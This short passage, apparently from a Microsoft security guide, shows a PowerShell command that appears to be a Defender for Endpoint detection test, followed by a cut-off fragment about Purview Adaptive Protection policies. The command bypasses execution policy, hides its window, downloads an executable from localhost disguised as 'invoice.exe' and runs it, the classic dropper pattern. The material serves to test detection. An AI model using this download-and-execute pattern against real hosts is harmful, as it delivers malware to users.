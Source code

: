 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
management policies which you can use to explore the Adaptive Protection
feature on Purview.
